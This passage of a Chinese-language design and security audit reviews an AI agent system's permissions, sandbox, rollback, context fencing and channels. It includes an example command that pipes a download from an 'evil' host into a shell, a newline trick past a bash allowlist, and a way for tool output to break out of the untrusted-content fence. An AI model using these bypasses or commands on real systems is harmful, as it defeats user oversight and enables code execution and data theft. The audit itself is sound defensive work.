- 同会话工具分区：不安全（Edit/Write/Bash）串行、安全批并发（`orchestration.py:286-323`），方向正确。
- AbortController 树 + LinkedAbortController 局部超时（`abort.py`）；跨会话 busy 租约 + 300s stale 回收（`session_pool.py:598`）。

**设计不足**
1. **无真调度策略**：活路径无任务队列/依赖图/负载感知/优先级，并行靠模型涌现 + 全局信号量。
2. **多 agent 是协程级"伪并行"，非隔离真并行**：同一事件循环 gather（`agent_tool.py:316`），无子进程/worker 池；任一子 agent 内的阻塞调用会饿死其它子 agent。
3. **无墙钟超时**：`run_subagent` 无 timeout（活路径只用 max_turns/max_tool_calling 卡轮次，`subagent_runner.py:189-192`）→ 廉价工具死循环可无限墙钟挂住。
4. **无优先级/抢占/全局配额**：Task 无优先级字段；abort 只整批 `abort_all`，无单任务优雅抢占；上限散落且 `agent_slots` 跨会话共享，无 aggregate token/进程配额。
5. **锁粒度粗、跨会话协调弱**：`WorkspaceLock` 整工作区单 owner（`query_engine.py:82`）；`session_presence` 是"提醒不阻断"（`session_presence.py:96/344`）→ 跨会话文件写无真协调。
6. **活路径可恢复性弱**：批路径的 `prepare_for_resume`（`scheduler.py:851`）未接线；活路径中断只记 settlement 或丢结果，无任务级 checkpoint/resume。
7. **关键状态全内存**：inbox/settlement/jobs（`job_registry.py:5`、`live_agents.py:8`）重启即失。

---

### 3.5 容错层：回溯（检查点/分支/补偿）+ 错误恢复

**我的理解**：XEYO 容错层有三套资产：**(a) rewind 文件级快照**（sha256 内容寻址落 `~/.xeyo/snapshots/`，原子写 `os.replace`，`snapshot.py:39`；文件工具每次改动记 before/after + OperationJournal 逆操作，`context.py:43`；`AgentFileIndex` 为会话内 path→blob 账本，`index.py:127`；checkpoints 在每条用户消息时 COW 冻结，`index.py:222`）；**(b) RollbackService/WorkspaceRestoreTransaction + shadow_git**（shadow_git **已上线非候选**，`workspace_restore.py:39`、`workspace_revision.py:24`，rewind/service 大量调用——已 grep 核实）；恢复前先做指纹预检防漂移冲掉用户改动（`service.py:1475`、`workspace_restore._restore_tree_conditionally:322`）；**(c) 错误恢复**：进程重启 `mark_crashed_as_recovery`（`turn_snapshot.py:167`）→ 恢复中断锚（`query_loop._persist_interrupted_anchor:274`）；LLM 错误按 `classify_llm_failure` 单点分类（`common/errors.py:77`）：429/408/5xx/网络错 retryable 走退避重试，**结构类 4xx `ENV_FALLBACK_STATUS={400,404,405,413,415,422}`**（`t_now_strategy.py:75`，二轮核实修正：402/429/5xx 明确**不**回退）在 env_channel 未吐 chunk 时触发 env_channel→legacy **声道**回退——不存在模型故障转移；写路径原子写 temp+os.replace + base_hashes 内容哈希校验拒盲写（`write_store.py:241/413`）。



**优点**
- 文件级回溯扎实克制：内容寻址 + 原子写 + 可重放；**scoped 恢复**（先指纹预检、检测工作区漂移即抛错，不静默冲掉用户改动）。
- 双向日志（audit.jsonl / rewind_events.jsonl + WAL）让恢复可观测、可对账；分支经 SessionRevision 父子链 append-only（`revision.py:74/175`）。
- LLM 错误按可重试性分类，伪造 tool 对类 4xx 不盲目重试。

**设计不足**
1. **补偿链缺口——WriteStore 不进 rewind（最危险）**：`record_file_mutation` 的调用者 grep 核实只有 `file_edit/file_write/notebook_edit` 三个工具 + rewind 自身；**多 agent 的 WriteStore 写路径无 before/after 快照** → 回滚对子 agent 写入不可见。
2. **JSONL 元数据无界膨胀**：operations/turns/checkpoints/index/rewind_events/audit 全部 append-only 从不修剪；`AgentFileIndex` 每 turn 增长；GC 默认 `XEYO_BLOB_GC_ENABLED=0` 且 dry_run（`blob_gc.py` 默认）→ 运维炸弹。
3. **会话级覆盖不全**：rewind 只快照文件 + "回滚当下转录"，无每 turn 对话快照；回滚靠 `_rewrite_transcript` 整转录改写 + `head.message_ids` 前缀比对（`service.py:1154`），外部改过转录直接冲突。
4. **`incomplete_tool_uses` 只写不读**：grep 核实全仓无消费点（仅 turn_snapshot/turn_runner 写入）→ 崩溃后未配对 tool_use 不修复（另一处 hydrate 的 `_repair_unclosed_tool_uses` 只覆盖断点恢复路径，语义重叠）。
5. **两套回滚实现并存（二轮已定论）**：在线主路径是 **v3 = RewindHotpath**（`server/app.py:278` 挂载；前端 `/v1/sessions/{sid}/rewind` → `routers/rewind.py:59`；slash `/revert` → `dispatch.py:603`）；`RollbackService`（v2）经 `/v1/sessions/{sid}/rollback/*` 保留为测试/降级端点（`routers/rewind.py:1-9` 注释明示）。两者内存对齐契约不同（`drop_engine` vs `resync_after_rewind`，`sessions.py:1031` / `rewind.py:146`）——并存即漂移面。shadow_git/WorkspaceRestoreTransaction 是 v3 的底层执行器（在产线）。详见 §5.1。
6. **持久性策略矛盾**：journal 默认 `fsync` 关（`journal.py:63`），而 `index._append_row` 强制 fsync——断电时"快照索引在、操作日志丢"的错位窗口。

---

### 3.6 安全层：权限裁决 + 沙箱 + 审计

**我的理解**：XEYO 安全层**裁决子层成熟、执行与信任子层偏弱**。裁决是"三态单向"模型：`PolicyDecision ∈ {ALLOW, ASK, DENY}`，判定顺序 deny_tools→MCP→always-allow→外发→UI→Agent→Bash→读→写→未知默认 ASK（`policy.py:1426-1735`），**DENY 先于 grant**（`evaluate_policy` 仅 ASK 时才查授权，`policy.py:1386-1421`）；默认档 `risk`（`policy.py:230`），工作区内安全写自动放行、风险/区外写 ASK——**不是默认拒绝**。ASK 挂起 → `PermissionCoordinator.request`（写 pending 审计 + waiting_permission，`permission_coordinator.py:57-115`）→ TTL（普通 180s/危险 60s，`pending_ttl.py:21`）→ store 统一写 resolved。授权 `PermissionGrant(tool, fingerprint, scope, expires_at, grant_id)`，TTL 24h（`store.py:271-285`）；**指纹 v2**：MCP=`sha256(["mcp-tool", 注册名])`（不含 args，参数注入免疫）、Bash=前两个 token 前缀、其它=matched_rule（`store.py:444-497`）；有 revoke 路径。**沙箱=纸面**：bash_tool 是 `subprocess.Popen(shell=False)`（`runner.py:139/343`，Linux /bin/sh、Windows powershell/pwsh），无容器/namespace/seccomp/chroot/setrlimit、无网络出口/资源配额。文件系统防护靠 `filesystem.py` 硬 DENY 表（secret/dangerous/protected_metadata，realpath 防 symlink 逃逸），写工具全部调 `check_permissions`（纵深）。审计是 append-only JSONL（`audit/log.py:1-9`），事件 permission.{pending,resolved,denied,grant.added,grant.revoked} + tool.{started,finished}，redact 浅层正则遮罩（`redact.py:52-63`）。



**优点**
- 三态单向性清晰：grant 只放大 ASK→ALLOW，**DENY 不可被 grant 覆盖**；撤销即移除→DENY（extension 的 `enabled_probe` 也遵循"移除即 DENY"）。
- 指纹 v2 设计用心：参数不进指纹 → 注入免疫；v1/v2 版本隔离防旧授权静默复用。
- 密钥/`.git`/`.ssh`/策略文件/受保护元数据多重硬 DENY；子 agent write_scope 上下文隔离 + worker 永不 ASK、远程会话不静默放行。
- 工具双重裁决（registry.evaluate_policy + 工具内 filesystem.check_permissions）纵深一致；extension hooks（PreToolUse/PermissionRequest）是附加门禁不替代裁决。

**设计不足**
1. **沙箱：内存护栏真实存在，隔离面纸面化（五轮修正）**：Windows 侧每次 spawn 创建 Job Object 并 Assign（`runner.py:341-360`、`win_job.py:99-181`），设 `PROCESS_MEMORY | JOB_MEMORY | KILL_ON_JOB_CLOSE`，默认 512MiB（env/policy 可调，`win_job.py:163-171`，已核实）+ 宿主退出整树终止 + `taskkill /T` 树杀——**防内存失控/防孤儿有效**。但不限制 CPU/进程数/文件系统/网络（无 AppContainer，`win_job.py:4` 明示弃用以保 git/npm）；POSIX 无 setsid/进程组、无 rlimit，仅杀根进程。综合结论：**资源护栏有实体，安全隔离缺失**。另：后台作业（晋升后）零超时、与 session abort 解绑（`runner.py:265-271`）、产物直写工作区不进 rewind——进程面绕过补偿链。
2. **Bash grant 前缀注入放大授权**：指纹只取前两个 token（`store.py:491-496`），`git status && curl evil|sh` 仍命中 `git status` 授权——与"身份不含参数即免疫"的叙事矛盾（参数注入在 Bash 语境下会被 `&&`/`;` 放大成整命令）。
3. **审计不可防内鬼/不可验证/无告警**：JSONL 无签名、文件可被任意进程读写、`query()` 无鉴权；redact 浅层（自定义敏感 key 漏遮罩）；denied 只落盘不告警不升级 → "可审计但不可响应"。grant/pending 存内存不持久。
4. **默认非拒绝**：`risk` 档 + 工作区安全写自动放行 + 未知工具 ASK（而非 DENY，`policy.py:1731`），离"最小权限/默认拒绝"有距离。
5. **max/never 档放宽越界**：`never` 允许工作区外写（`policy.py:1654-1662`）与外发工具免确认（`:1483-1502`），数据外泄面扩大。
6. **MCP deny 读取异常 fail-soft**（`policy.py:1246` 异常时继续走 tool_policies 而非收紧）——安全组件倾向 fail-open，反了。

---

### 3.7 装配层：上下文装配 + 窗口管理（所有层的"翻译官"）

**我的理解**：装配层是 XEYO **最独特也最成熟**的一层，核心是三条设计：**(1) 稳定前缀 + KV 安全**——system 由 assembler 按 model/names/instr_sig/sidemode 做会话级 memo（`assembler.py:36/103`），投影 C0/C1 字节稳定（`compact.py:115`），两次压缩间前缀不动；tools schemas 会话冻结 + JSON 缓存（`query_loop.py:939`）。**(2) T_now 易变块管线**——`pre_llm_inject.py` 维护 `T_NOW_BLOCK_REGISTRY`（登记数硬顶 **22**，`pre_llm_inject.py:714`，注释自述"加一必须删一"；AGENTS.md 说的"20"已过时），类感知预算 Directive/Event/Inventory（`:688`）、模糊指代静默 D1（`:862`）、总预算 `T_NOW_TOTAL_BUDGET=6000` 在 `_trim_tagged_blocks:886` 运行时执法。**(3) env_channel 环境声道**——默认策略把易变块装进一对**仅存在于投影**的伪造 tool 对（`assistant(xeyo_env_notice) → tool_result`）尾插（`t_now_strategy.py`、`turn_context.append_env_notice_pair:118`），不进 MessageStore/JSONL、不进 tools 数组（`t_now_strategy.py:98`），发送前 `normalize_messages_for_openai` 转成真 tool_calls/tool 消息（`_openai_common.py:244/278`）；厂商以结构类 4xx 拒绝时按进程级备忘回退 legacy（bg_wrap 身份标记尾插 user）。装配时序：投影压缩 → 工具输出围栏 γ4（`apply_tool_output_fences:881`，`fence.py`）→ **压缩之后**尾插 env 假对（`:925`）→ build。



**优点**
- 稳定前缀三保险（system memo / schemas 零重序列化 / env 尾插不动前缀）；C0/C1 字节稳定 + 增量投影。
- env_channel 结构上根治"说话人混淆"（易变块与用户意图物理隔离、工具名 `xeyo_env_notice` 不进 tools 数组）；4xx 回退 legacy 是真实兜底。
- 压缩**不会**误删 env 假对、不破坏 tool 配对（已核实：假对在投影后才追加，compact 只改 tool_result 内容不删消息；`hydrate._repair_unclosed_tool_uses:73` 断点补合成 tool_result 防 400）。
- γ4 围栏统一净化工具输出（`fence.harvest_sanitize:56`、保围栏截断 `:131`），覆盖面好。

**设计不足**
1. **登记表硬顶仅测试执法**：运行时 `run_pre_llm_inject` 不校验登记数，唯一执法是 `tests/test_t_now_block_registry.py:44` 契约测试；且 22 限制的是"块种类"而非单轮注入体积（体积闸是 6000 预算）——治理声明与运行时强制力不匹配。
2. **token 预算非一等公民**：`BudgetTracker.max_tokens` 默认 None（`over_token_budget` 仅显式设值时生效），装配层只有 USD/轮次/工具数护栏；上下文超限靠 `maybe_force_compact_on_pressure:796` 用 model.context_limit 触发 C2——"预算门控"更像消防员而非看门狗。
3. **legacy 回退档残留说话人混淆风险**：legacy 把块前/尾插进 user 消息，仅靠 `[system-background]` + "NOT the user request" 头（`pre_llm_inject.py:81`）防误读；弱模型在回退档仍可能把指令绑到用户请求。
4. **可观测性缺口**：T_now 块与 env 假对**不进 transcript**（`record_transcript` 只写 MessageStore）——排障时只能抓最终 messages 反推；UsageEvent.context_breakdown 无 env 内容单块归因。
5. **双预算常量冗余 + 疑似死代码**：`T_NOW_EXTRA_BUDGET=6000`（`:253`）与 `T_NOW_TOTAL_BUDGET=6000`（`:700`）语义重叠；旧 `_trim_blocks_to_budget:613` 疑已被 `_trim_tagged_blocks` 取代。
6. **旁路调用点风险**：C2 摘要预取 `prefetch_c2_summary`（`:789`）直取 `store.as_api_messages()+system` 调模型，走独立路径——若未来新增模型调用点不复用主链路，会绕过 γ4 围栏/注入；当前主 model.stream 仍经装配层，风险可控但无强制。

> **二轮补遗修正与实锤（详见 §5.5）**：token 计量权威口径为 `ceil(utf-8 字节/4)`（`memory/token.py:11-15`），但 C2 经济门用"字符/4"双口径（中文低估约 3 倍，`runtime.py:1106-1107`）；`build_default_engine`（`query_engine.py:1166-1369`）与 DeepSeek 客户端均不设置 `context_limit`，CLI 路径会使 **C2 三个触发点全部失效**；C2 决策实际存在三处独立分支（强压/公式门/遗留 decide）；`fence_tool_output` 不转义内部 `</tool_output>`，围栏可被内容击穿（`fence.py:75-84`）；blob 缺失时 hydrate 静默清空（`transcript_blobs.py:62-69`）。

---

## 四、跨层问题专题（审计中的高频信号）

1. **"同名异义 + 双份状态机"模式在全仓反复出现**：决策层 `Turn`（模型轮 vs submit）；`SessionTaskState` vs `TurnSnapshot`；容错层 RewindHotpath(v2) vs RollbackService(v3)；能力层 `mcp__`直挂 vs Mcp 网关；slash vs 工具。每处都伴随"两条语义、两套入口、两个 bug 面"。这是 XEYO 最大的**架构卫生**欠账，建议每个双轨定主从或合并。
2. **"已实现未接线"是第二高频信号**：Scheduler DAG（`run_task_batch` 无生产调用）、`prepare_for_resume`、`incomplete_tool_uses`（只写不读）、blob GC（默认关 + dry-run）。代码先行、接线滞后的结果是"看起来有容错/调度，实际没有"。
3. **"冻结/隔离红线被隐性地雷触碰"**：tools 数组冻结 vs `list_changed` 全代替换清缓存；"权限与安全组件倾向 fail-open"（MCP deny 读取异常、redact 浅层、default risk）。
4. **补偿/快照覆盖面按"写入口"划分而非按"数据面"划分**：rewind 只覆盖三个文件工具，绕开它的写路径（WriteStore、外部进程、用户手动）都不可回滚；真正的"对话态 + 文件态 + 多写者"统一账本缺失。
5. **装配层是唯一把各层翻译给模型的中枢，但它本身不拥有预算与可观测**：没有每块 env 归因、不进 transcript、max_tokens 默认关——"翻译官"说了算但没人监督翻译官。
6. **跨会话协调全靠"互斥/提醒"，无协作**：整工作区单 owner 锁 + session_presence 提醒 → 多会话同一工作区时要么串死要么撞车。

---

## 五、第二轮补遗（server / model / channels / rewind 悬案 / 安全细节 / 壳层）



### 5.1 rewind 悬案定论与回滚新缺口

**定论（已核实接线）**：在线主路径 **v3 = `RewindHotpath`**；`RollbackService`（v2）保留为 `/rollback/*` 测试/降级端点，未死。v3 完整链路：`POST /v1/sessions/{sid}/rewind` → `_flush_transcript_writes`（5s 排空，`rewind.py:90`）→ 双闸忙探测 `_pool.is_busy ∨ turn_runner.is_running` → 409 `session_busy`（`rewind.py:68-86`）→ `confirmed=true` 闸（`hotpath.py:391`）→ surface fold 定位目标 → 追加 rewind marker 返回 → **文件恢复在后台 daemon 线程**（`hotpath.py:562`）→ `_resync_memory` + `_detach_auto_drivers`（`rewind.py:110-174`）。v2 才有真 preview（dry-run plan+hash）；v3 用 `GET /rewind/checkpoint/{id}` 做预检。

**写入口覆盖矩阵（rewind 盲区）**：

| 写入口 | 入 rewind journal | 证据 |
|---|---|---|
| file_write / file_edit / notebook_edit | ✔ | `file_write_tool.py:419`、`file_edit_tool.py:604`、`notebook_edit_tool.py:326` |
| **WriteStore（主会话与子 agent 的统一写缓冲；四轮修正：主会话写工具同样注入 store，`session_pool._build:500` agent_id="main"）** | ✘（走 `memory.journal.ChangeRecord`） | `write_store.py:255` |
| **bash_tool（shell 重定向/编辑器写文件）** | ✘（仅 `_note_bash_write_target`） | `bash_tool.py:671` |
| **server workspace_fs 直写** | ✘✘（连权限/审计都不走） | `workspace_fs.py:35-48` |

> 四轮修正：引擎内**全部**结构性写（主会话+子 agent）都经 WriteStore，但 WriteStore 本身只写 memory.journal 变更流水、不进 rewind 快照——补偿链缺口因此比一轮估计的**更大**（不是"子 agent 旁路"，而是"所有结构化写共用一个不进 rewind 的缓冲"）。

**新缺口**：
1. **bash 写文件"幽灵残留"**：bash 改的文件无 before 快照，回滚时既不会被 `cp.entries` 恢复、删除分支只认 `index_entries` → bash 产生的改动在 rewind 后残留或无法还原。
2. **后台 restore 与引擎写入无持续互锁**：忙探测只在请求瞬间做一次；restore 线程耗时数秒~分钟，期间新 turn 写同工作区会被 `_write_atomic_bytes`（`hotpath.py:782`）覆盖。`rewind/locks.py:132-139` 注释自认互斥仅靠 SessionPool busy 409，restore worker 不取 `WorkspaceLock`。
3. **锚点机制空转**：`mark_checkpoint_anchor` 路由存在（`rewind.py:255`）但"现阶段无写入方"（`blob_gc.py:235`）→ 锚点保留分支永不触发，关键检查点只能靠 `keep_recent` 保活。
4. **recovery 仅靠重启扫描**（`hotpath.py:181` + `app.py:84`）：进程在写完磁盘、记终态前崩溃则事件停在 `restoring`，无运行中看门狗重跑。
5. **operations/turns JSONL 读路径 O(n)**：`list_operations` 每次全量重读整文件 fold（`journal.py:221-229`），读缓存上限 64 条长会话频繁失效。

### 5.2 server 层（第一轮未审的新增面）

**机制**：submit → `chat_completions`（`chat.py:621`）api_key 校验 → busy 租约 → `SessionPool.get_or_create(QueryEngine)`（LRU 64，`session_pool.py`）→ SSE 订阅；断连仅 `note_client_disconnect` **不 interrupt**（turn 转 detached 续跑）+ 12s 心跳（`chat.py:1455-1497`）。`turn_settlement_hub` 是 turn 终态单槽多租户分发器（inbox→goal→jobs 顺序，异常全隔离，`turn_settlement_hub.py:22`）。**Goal 合成轮护栏值得肯定**：`resolved_max_rounds` 默认 32 + 共享唤醒预算 `MAX_CONSECUTIVE_WAKES=3`（`job_registry.py:32`，与 jobs 共用）+ 仅人类 `restore_wake` 可恢复——"规划被动"的引擎侧结论下，server 层其实是唯一在推进 Goal 轮次的地方且有失控护栏。

**设计不足**：
1. **路由门禁不一致（已核实，高危）**：`routers/workspace.py` 约 20 个端点中仅 `set_policy_bash`（`:61`）与 `terminal_exec`（`:450`）调用 `require_loopback`——`POST /v1/workspace`（改全局 cwd `:89`）、`GET/PUT/DELETE /v1/workspace/file`（`:120/153/171`）等读写删端点**无任何门禁**；`routers/audit.py:14`（注释自认"β3 身份落地后再加 scope 鉴权"）与 `routers/memory.py` 同样裸奔。本地任意进程 `curl` 即可读写删工作区、读审计与记忆。
2. **HTTP 直写绕过引擎三链路**：`workspace_fs.py:35-48` 只做 `resolve_in_workspace` 路径约束，不穿 engine 权限、不进 rewind、不落审计——引擎内建得再好，这条旁路一开全部失效（跨层发现，建议最高优先收敛）。
3. **无 CSRF/Origin 校验**：仅 CORS 来源白名单（`app.py:170`）；`require_loopback` 校验 TCP peer，同源浏览器恶意页可代表 127.0.0.1 发起写请求。
4. **无限流/请求体上限**：仅 `_MAX_USER_CHARS=100k`（`deps.py:19-22`），无频率限制、无 body 字节上限。
5. **SSE 无单一写者约束**：每请求独立 subscribe（`chat.py:1460`），断线靠 `sessions.py:1170` 回看补帧，detached 窗口可丢帧。

### 5.3 model 层（第一轮未审的新增面）

**机制**：SSE 行解析（`_openai_common.consume_sse_line_with_usage:82`）；tool_call 增量按 `index` 分桶、支持乱序/跨 chunk/部分 JSON、`_emitted` 防重（`:115-138`）；错误分类单点 `classify_llm_failure`（`common/errors.py:77`，LlmFailure(code, retryable, retry_after_ms)）；用量取厂商真实 usage 并尾帧即时记账；`AbortController.raise_if_aborted` 每 chunk 检查；重试安全靠 `saw_any` 门控（已吐字不原地重试，`query_loop.py:1068`）。

**设计不足**：
1. **httpx 路径流中异常不归一（最严重）**：`openai_compat.py:248-282` 的 `aiter_lines()` 循环无 try（stdlib worker 有 `:316-332` 的归一）；中途断流抛 `httpx.RemoteProtocolError/ReadTimeout`，query_loop 只捕 `ProviderError/OSError`（`:1115/1147`）→ **半截 assistant 消息丢失且不可重试、不友好**。
2. **超时分类盲区**：`classify_llm_failure` 只认原生 `TimeoutError`（`errors.py:88`），httpx `ReadTimeout/ConnectTimeout` 归 unknown 不可重试——与"请求超时固定 180s"（`openai_compat.py:247`）直接矛盾。
3. **deepseek 不写用量账本**：`deepseek.py` 全程未调 `_record_usage_safe`（`openai_compat.py:203`）→ `/usage` 计量口径失真。
4. **无模型故障转移/降档**：402/429/5xx 仅友好提示，主模型持续 5xx 无兜底。
5. **无流空闲超时**（只有总超时）；`fake.py` 无故障注入（无法测试 #1/#2）；reasoning 只认 `reasoning_content`（`:105`），o1 式 `reasoning` 未处理；`vendor_models.py` 的 context_length 与 client 的 `context_limit` 两条来源脱钩未接线。

### 5.4 channels 层（外部消息攻击面，第一轮完全遗漏）

**机制**：ilink = HTTP 长轮询（hold≈35s，`client.py:296`）+ QR 登录；filehelper = Playwright 驱动微信网页版，MutationObserver 增量 diff 抽气泡（`bridge.py:644-655`）。会话按 `from_user_id` 分（`session_id_for`）；入站文本统一 `fence_remote_user_text` 包 `<user_message untrusted>` + 密钥/注入句式收割（`runner.py:287`、`fence.py:104`）；远程命令白名单 `_REMOTE_COMMANDS`（`commands.py:18-21`）；**remote 会话权限收紧实锤**：`is_remote_session → 强制 ask/deny、default/allow 不静默放行、worker 远程 Bash 一律 DENY`（`policy.py:922-963`）。回声防护 `[XEYO]` 前缀 + seen 去重。

**设计不足**：
1. **无发送者白名单（最高危）**：`_is_user_sender` 仅判域 `@im.wechat`（`service.py:429`），任何能给 bot 发消息的微信用户等同 owner——可触发 agent turn、远程 `/allow` 危险工具、`/rule` 写规则；allow/deny 不校验 actor（`service.py:602-619`）。
2. **出站无脱敏 + 任意本地文件可外发**：`send_job_result` 直发 `final_text` 不过滤（`channel.py:82-97`）；`remote_deliver` 任意本地路径文件可发微信（`remote_deliver.py:16,56-81`）→ 数据外泄面。
3. **媒体元数据未 fence**：`inbound_prompt` 拼接文件名/元数据不经围栏（`service.py:469`）；无 per-user 身份 → 说话人混淆残留。
4. **bot_token 明文落盘**：`.xeyo_ilink/credentials.json` 无加密无 0600（`store.py:29-32`）。
5. **去重/来源脆弱**：seen 靠文本/12 字子串匹配（`seen.py:113-117`）；filehelper 依赖 DOM 选择器，页面改版即漏读。

### 5.5 engine / 装配补遗（窗口管理实锤）

**C0/C1/C2 常量与决策（压实第一轮结论）**：C0=单条 tool_result >8192 字符截断（头 4096/尾 1024，`compact.py:23,176-182`）；C1=冻结占位（keep_tail=最近 3 工具轮、成对边界、最小滞后 8，`runtime.py:49,213-240`）；C2 触发=冻结比例 0.80（env 0.5-0.99，`runtime.py:1755-1771`）∨ 压力公式 `(win−2048−tail_budget)/win`（tail=每轮均 token×3，`runtime.py:1649-1752`）∧ 收益门（min_gain 4000 字符/save 0.25）。C2 摘要默认**确定性**（12000 字符配额表 + 错误逃生舱 2600 + 引用锚 `⟦notes:msg:i⟧` + 碎片抓拍进 sqlite，`runtime.py:545-986`），LLM 旁路默认关且失败回退确定性。压缩只改模型视图，JSONL 全量保留可还原；hydrate 修复链 fail-closed（写工具崩溃合成 `TOOL_OUTCOME_UNKNOWN`，`hydrate.py:73-114`）。

**设计不足**：
1. **token 双口径**：权威 `token_len=ceil(utf8 字节/4)`（`token.py:11-15`，中文≈3×字符数）vs C2 经济门用 `字符/4`（`runtime.py:1106-1107`）→ 中文工作区收益/摊薄门系统性失准约 3 倍。
2. **context_limit 断链 → C2 全哑（后果链已核实）**：`query_loop.py:795` 取 `model.context_limit`；`build_default_engine`（`query_engine.py:1166-1369`）与 DeepSeek 客户端都不设 → None → `maybe_force_compact_on_pressure` 恒 False（`runtime.py:1786-1789`）→ Path A `pressure_ok=False`（`:1507-1511`）→ C2_GATE 关时 `project_for_model` 纯投影提前返回（`:1408-1416`）→ **三个 C2 触发点全失效，长会话无界增长直至厂商 400**。
3. **C2 决策三分支分裂**：每轮强压（`query_loop.py:794-803` 绕收益门）/ Path A 公式门（`runtime.py:1492-1537`）/ 遗留 decide+`force_hardtop`（`:1553-1600`/`:1479-1484`）三处独立决定"是否 C2"，常量×开关矩阵不可推理。
4. **fence 不转义闭合标签**：`fence_tool_output` 拼接闭合标签但不转义 inner 中的 `</tool_output>`（`fence.py:75-84`）→ 工具输出可自带闭合标签提前终止"不可信"围栏；`_INJECTION_LINE_RE` 仅行级黑名单（`:46-53`）易绕过。
5. **blob 缺失静默清空**：`transcript_blobs.py:62-69` 读不到 blob 文件时 `content=""`，hydrate 无告警——历史静默蒸发。
6. **WriteStore 多文件 partial 不回滚**：`_apply_multi` 预检后逐个写，中途失败返回 "multi-file partial" 已写不回滚（`write_store.py:363-386`），且全仓无调用方（死代码）。
7. **rewind journal fail-open 三点**：`write_store.py:317-326`（文件已落盘后 journal 异常仅告警 ok=True）、`query_engine.py:1117-1128`（commit_turn 失败 turn 照常成功，版本链断裂）、`:687-692`（turn 基线捕获失败静默 None）——对比 After 快照失败标 failed（`:1032-1037`），最弱的恰是 rewind 证据源。
8. **注释/代码漂移**：`_c2_role_share` 注释"默认 0.35"实际 0.7（`runtime.py:513-522`）；`_syntax_ok` 硬编码 utf-8 读而写路径支持 utf-16-le（`write_store.py:118` vs `:405-409`）。

### 5.6 安全层补遗

**优点**：bash_policy 判定序 deny-first（黑名单→密钥→规则→策略→白名单→ASK，`policy.py:878` 注释+实现）；fail-closed 一致（坏 `.xeyo-policy.json` 回退更严档并审计 `workspace_policy.py:114-148`、坏 bash_rules 回退内置+审计 `bash_policy.py:404-421`）；hooks 不能改写参数、PermissionRequest 非零退出（含超时）fail-closed DENY（`hooks.py:113-117`）；worker/远程"永不 ASK→DENY"避免不可达确认面。

**设计不足**：
1. **bash 换行绕过只读白名单（已核实判定链）**：`_COMPOSITE_RX` 不含 `\n`（`bash_policy.py:532`）、`_tokenize` 仅按空格切（`:318`）→ `echo\npython -c "<任意脚本>"` 首 token 归一为 echo → 白名单放行多行注入。
2. **AskUserQuestion 全程无审计 + actor 自报**：`PendingAskStore.resolve_answer/cancel` 不写 audit（`ask_store.py:80-102`，对比权限侧 `store.py:180`）；answer 无长度/类型上限，任何拿到 session 的调用方可替用户作答。权限 ASK 与 AskUserQuestion 是**两套 store、两套端点**的同构重复。
3. **redact 浅层不递归 + 覆盖漏**：嵌套 tool_input 凭据原样落审计（`redact.py:53`）；漏 AWS AKIA/GCP AIza/JWT/PEM；32hex 误报 git hash；audit log 无轮转/无上限/无查询鉴权（`log.py:47-110`）。
4. **密钥表覆盖漏**：`.netrc/.git-credentials/.kube/config/.gnupg/id_dsa` 不拦，`.env` 变体仅 3 个（`filesystem.py:68-92`）；云凭据靠 basename `credentials` 巧合命中。
5. **嵌套 .git 降级 + env 一键放宽**：`protected_metadata_reason` 只看 relpath 首组件（`filesystem.py:321`）→ `sub/.git` 降为 ASK 非 DENY；`XEYO_ALLOW_PROTECTED_METADATA` 放宽无审计（`:294-296`）。
6. **readable_extra_roots 放开整棵记忆库 + 当前会话转录**（`filesystem.py:196-219`）：转录含历史对话原文，用户曾粘贴的密钥可被 Read 绕过硬门禁。

### 5.7 壳层接缝（GUI / CLI / Tauri）

**优点**：断流恢复"绝不 interrupt"原则贯彻（cursor 重放 + 服务端 transcript 对账，`streamRecoverySlice.ts:97-173`）；审批面板默认展开、超时倒计时+撤销有二次确认（`PermissionDialog.tsx`、`GrantsPanel.tsx`）；rewind v3 壳层 C1-C5 加固（幂等键/失败回滚/落盘/仅终态成功，`rewindV3Store.ts:465-660`）；Tauri CSP connect-src 收敛至 localhost。

**设计不足**：
1. **回滚运行中无写阻塞**：`rewindV3Store` running 期仅禁弹窗按钮（`WorkspaceRevertDialog.tsx:377,428`），Composer/sendMessage 无任何 rewind 守卫（全仓无 `phase` 消费者）→ 同会话可在文件恢复中途发出新回合（与 §5.1-2 后台 restore 无互锁同根）。
2. **CLI 权限误触**：pending 期间单键 a/y 即放行、无选择光标、无超时倒计时（`App.tsx:204-211`）；AbortError 被 `onDone()` 伪装正常结束（`sse.ts:139-141`）。
3. **GUI↔CLI 双实现漂移**：CLI 只处理 11 类事件、无 intent/choices（多选退化为二选）、plan/ask 不可交互、完全无 rewind/grants/recovery（`sse.ts:359-523`）；两端 outcome 语义靠注释对齐、无共享类型。
4. **Tauri 面扩大**：`frame-src 'self' http: https: data: blob:` 全开（`tauri.conf.json:32`）+ `additionalBrowserArgs` 显式禁用 msSmartScreenProtection；`shell:allow-open` 接收任意绝对路径（`workspaceOpen.ts:74-75`）——"agent 提议文件名→用户点击即用系统默认程序执行任意文件"。
5. **远程审批弹窗来源混淆**：微信 filehelper 事件可 `setPendingPermission` 且 sessionId 兜底 activeId（`remoteStore.ts:179-192`）→ 跨渠道审批请求与桌面会话错配、actor 仍以 'desktop' 提交。

### 5.8 二轮新增跨层模式

1. **"旁路一开，全链白费"**：server workspace_fs 直写绕过权限/rewind/审计；bash_tool 写文件绕过 rewind；远程审批绕过 UI 确认语义。引擎内的不变量都需要"所有写入口"配合，而写入口清单目前没有机器执法。
2. **"门禁逐端点手写"**：workspace.py 2/20 端点有门禁、audit/memory 靠注释记账——应收敛为 router 级统一依赖（FastAPI `dependencies=`），缺门禁即测试红。
3. **"估算与真相双口径"**：token chars/4 vs bytes/4；轮次上限 vs 墙钟；`_MAX_USER_CHARS` vs 无 body 上限——凡"门"都有两个刻度且取宽的那个。
4. **"同一决策多处分支"**：C2×3、回滚×2、ASK 面板×2、SSE 消费×2（GUI/CLI）——每处都是漂移面。


## 六、第三轮补遗（tools 具体实现 / 认知层深挖 / codeindex·usage·评测设施 / CLI 边角）

### 6.1 tools 具体实现（能力层下沉）

